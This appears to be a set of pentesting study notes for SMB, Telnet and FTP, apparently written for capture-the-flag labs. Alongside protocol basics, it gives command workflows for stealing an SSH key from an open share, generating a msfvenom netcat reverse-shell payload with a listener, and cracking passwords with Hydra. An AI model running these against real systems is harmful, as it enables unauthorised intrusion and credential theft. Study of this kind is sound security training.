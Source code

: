 
# Network Protocols & Pentesting Notes

---

## SMB (Server Message Block)

**What is SMB?**

* Network protocol for sharing files, printers, and resources on local networks.
* Developed by Microsoft, supported on Windows, Linux, macOS.

**Key Features:**

* File and folder sharing
* Printer sharing
* Network browsing
* Authentication and access control

**Ports:**

* TCP 445 (modern SMB)
* TCP 139 (older NetBIOS over TCP/IP)

**Common Tools:**

* Windows File Explorer
* `smbclient` (Linux command-line client)
* `enum4linux` for enumeration
* `nmap` for port scanning

**Basic SMB Enumeration & Exploitation:**

```bash
# Scan all ports & services on target
nmap -p- -sV 10.10.37.246

# Enumerate SMB shares & info
enum4linux 10.10.37.246

# Connect to SMB share (replace IP/share/user/port)
smbclient //10.10.10.10/secrets -U Anonymous -p 445

# Download file after connecting
get id_rsa

# Secure the downloaded key
chmod 600 id_rsa

# SSH into target using key
ssh -i id_rsa user@10.10.10.10
```

---

## Telnet

**What is Telnet?**

* Network protocol & CLI tool to remotely connect to machines over TCP (usually port 23).
* Sends commands and receives output in plain text (not encrypted).

**Common Usage:**

* Connect to remote host:

  ```bash
  telnet <IP> <port>
  ```

* Check open ports (e.g., port 80):

  ```bash
  telnet example.com 80
  ```

* Exit session: `Ctrl + ]` then type `quit`

**Pentesting Workflow Example:**

```bash
# Scan for open ports
sudo nmap -p- -T4 -vv 10.10.228.173 -oN fullportscan.txt

# Aggressive scan on specific port to get version & usernames
sudo nmap -A -p 8012 -T4 -vv 10.10.228.173 -oN fullportscan.txt

# Telnet into open port
telnet <IP> <port>

# Capture network traffic (tcpdump example)
sudo tcpdump ip proto \\icmp -i tun0

# Ping to test connection and observe tcpdump
ping <IP> -c 1

# Generate reverse shell payload with msfvenom
msfvenom -p cmd/unix/reverse_netcat lhost=<localTunIP> lport=4444 R

# Listen on local port with netcat
nc -lvnp 4444

# Run payload on target via telnet to get shell
.RUN <payload>
```

---

## FTP (File Transfer Protocol)

**What is FTP?**

* Protocol to upload, download, rename, delete, move files between client & server.
* Uses port 21 (control) and port 20 (data in active mode).
* No encryption by default — data including credentials sent in plain text.

**Modes:**

* Active (server connects back to client for data)
* Passive (client initiates all connections; firewall friendly)

**Secure Alternatives:**

* SFTP (SSH-based)
* FTPS (SSL/TLS based)

**Basic Enumeration & Exploitation:**

```bash
# Scan for FTP service and version
nmap -A <IP>

# Connect anonymously if possible
ftp <IP>

# Download files to find info like usernames/passwords
get <filename>

# Use Hydra for password cracking (example for SSH, can adapt for FTP)
hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://<IP>

# Login to FTP with cracked credentials
ftp <IP>
# enter username and password
```

